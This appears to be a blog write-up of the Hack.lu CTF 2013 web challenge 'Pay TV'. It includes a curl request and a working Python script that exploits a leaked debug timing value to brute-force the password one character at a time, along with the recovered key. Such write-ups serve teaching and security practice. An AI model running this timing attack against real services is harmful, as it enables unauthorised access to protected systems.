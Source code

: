 Hack.lu CTF 2013: Challenge 4 "Pay TV" (web)
############################################

:date: 2013-10-24 10:00
:tags: ctf, hack.lu, writeup
:category: ctf
:slug: hacklu13-ctf-4-paytv

Who doesn't want to hack Pay TV? :) So do I. The challenge was a nice website with a tv on it that showed static and a form that requested a password.
A quick analysis of the JS revealed the following interesting line:

.. code-block:: javascript

    xhr.send('key=' + encodeURIComponent(key)/* + '&debug'*/)

The interesting part is the `&debug` parameter.

A

.. code-block:: bash

    lukas@Lukass-MacBook-Pro paytv  $ curl 'https://ctf.fluxfingers.net:1316/gimmetv' -H 'Content-Type: application/x-www-form-urlencoded' --data 'key=123456&debug'

gave me an interesting response of

.. code-block:: javascript

    {"start": 1382526729.725971, "end": 1382526729.726004, "response": "Wrong key.", "success": false}

As you can see, it returns the "computational time" of the algorithm. Hm? Timing attack? Yup. As it turns out, a (partially) correct code takes significantly longer than others. The obvious result was the following Python script:

.. code-block:: python

    import requests


    class KeyFound(Exception):
        pass


    def get_timing_for_key(key):
        data = {
                'key': key,
                'debug': ''
        }
        headers = {
                'Content-Type': 'application/x-www-form-urlencoded'
        }
        r = requests.post(
                'https://ctf.fluxfingers.net:1316/gimmetv',
                headers=headers,
                data=data,
                verify=False)
        j = r.json()
        if j.get('success'):
            raise KeyFound(key)
        start = j.get('start')
        end = j.get('end')
        t = end - start
        return t

    def find_key(chars=''):
        chars = chars + '%s'
        timings = {}
        for i in range(10):
            timings[chars % i] = get_timing_for_key(chars % i)
        for i in range(65, 91):
            timings[chars % chr(i)] = get_timing_for_key(chars % chr(i))
        for i in range(96, 123):
            timings[chars % chr(i)] = get_timing_for_key(chars % chr(i))

        timings = sorted(timings, key=timings.get, reverse=True)
        print 'Found partial key: %s' % timings[0]
        find_key(timings[0])


    if __name__ == '__main__':
        try:
            find_key()
        except KeyFound as key:
            print 'Found key: %s' % key

which yields

.. code-block:: bash

    (hackluctf13)lukas@Lukass-MacBook-Pro paytv  $ python paytv.py
    Found partial key: A
    Found partial key: AX
    Found partial key: AXM
    Found partial key: AXMN
    Found partial key: AXMNP
    Found partial key: AXMNP9
    Found key: AXMNP93

Type that code into the form and you get the flag on the tv :)
